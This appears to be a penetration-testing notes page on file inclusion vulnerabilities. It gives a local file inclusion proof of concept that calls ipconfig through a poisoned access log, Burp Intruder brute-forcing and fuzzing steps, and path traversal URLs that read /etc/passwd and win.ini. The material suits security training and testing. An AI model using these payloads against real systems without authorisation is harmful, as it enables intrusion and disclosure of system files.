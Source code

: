 # File Inclusion Vulnerabilities

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" %}

## Local File Inclusion (LFI)

### PoC

```
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

### Bruteforcing LFI via directory

* Obtain a GET request in burp
* Send to Intruder
* Attack type set to Sniper

Example on where to place payload:

```
GET /admin/?|PAYLOADHERE|= HTTP/2
```

* Click the add button on the right side and make sure that the payload character is between the field where the two pipes are
* Go to payloads > Load > SecLists > Discovery > Web-Content > raft-small-words.txt
* Click start attack
* Make sure to order by the largest length as that will be what you need to focus on

### Fuzzing

* This section is for if you found something from bruteforcing for LFI

```
GET /admin/?debug=|fasfoaj|
```

* Place the payload characters in between the pipes
  * Remember, the pipes are the payload characters in burp, you need to manually add this
* Go to payloads > SecLists > LFI > LFI-jhaddix.txt
* Select start attack and organize by largest length again

Example of LFI:

```
http://10.10.10.1/admin/?debug=../../../../../windows/win.ini

http://10.10.10.1/admin/?debug=../../../../../etc/passwd
```







